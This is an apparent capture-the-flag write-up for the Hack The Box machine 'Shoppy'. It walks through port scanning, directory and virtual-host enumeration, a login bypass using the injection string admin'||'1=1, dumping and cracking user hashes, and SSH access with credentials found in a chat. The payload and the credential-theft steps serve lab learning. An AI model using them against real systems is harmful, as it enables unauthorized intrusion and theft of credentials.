 
<h1 align=center>Shoppy</h1>

## Part 1 : Discovery
## Scanning
```sudo nmap -sVC -T4 -p- target_ip``` gives us the result : 
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This box is hosting a web application on port 80 called shoppy.htb. <br/>

This website is unreachable. We have to specifiy this machines' IP and domain into our local DNS Resolver.<br/>
- execute : ```sudo vi /etc/hosts/```
- insert : ``` target_ip  shoppy.htb```
- save and quit

## Investigating the website
We should discover if there are any subdomains or virtual hosts that are serving under the same ip

### Finding directories 
- execute ```gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirb/big.txt``` to find directories under this domain<br/> result :
```
gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/11/03 16:30:35 Starting gobuster in directory enumeration mode
===============================================================
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/Admin                (Status: 302) [Size: 28] [--> /login]
/Login                (Status: 200) [Size: 1074]           
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]             
/fonts                (Status: 301) [Size: 177] [--> /fonts/]  
/images               (Status: 301) [Size: 179] [--> /images/] 
/js                   (Status: 301) [Size: 171] [--> /js/]     
/login                (Status: 200) [Size: 1074]               
                                                               
===============================================================
2022/11/03 16:33:12 Finished
===============================================================

```


### Finding Virtual Hosts
- execute ```gobuster vhost -u http://shoppy.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt``` to find any active vhosts serving under this domain.<br/> result : <br/>
```
gobuster vhost -u http://shoppy.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/11/03 16:30:45 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
                                                       
===============================================================
2022/11/03 16:41:26 Finished
===============================================================
```
- We can see that there is a vhost called ```mattermost.shoppy.htb``` serving under this domain.
- We should insert this next to the line that we created at our local DNS Resolver.

## Exploiting.
We can see that there are some login and admin directories that opens a new page and asks user to login. We may bypass authentication via SQLI.
- go to http://shoppy.htb/login
- enter ```admin'||'1=1``` into username
This will bring us the admin page that we can search anything in the admin page. <br/>
- I have decided to use ```admin'||'1=1``` once again here to see if there are anything hidden in the Database.
- This gives us a download button which will download some creds about the users.
- Crack the hashes using hash crackers.
- This will give you the joshes' password.
- Now enter joshes' creds at mattermost.shoppy.htb.
- We can find that jaeger said josh to connect to the machine with given creds.
- Now we should form a connection via ssh to the target machine using the given creds.
### SSH connection
- execute ```ssh -l jaeger```
- enter the password given at mattermost.shoppy.htb
```
ssh -l jaeger 10.10.11.180
jaeger@10.10.11.180's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Nov  3 08:08:12 2022 from your_ip
jaeger@shoppy:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  ShoppyApp  shoppy_start.sh  Templates  user.txt  Videos

```
- execute ```cat user.txt``` to capture the user flag.
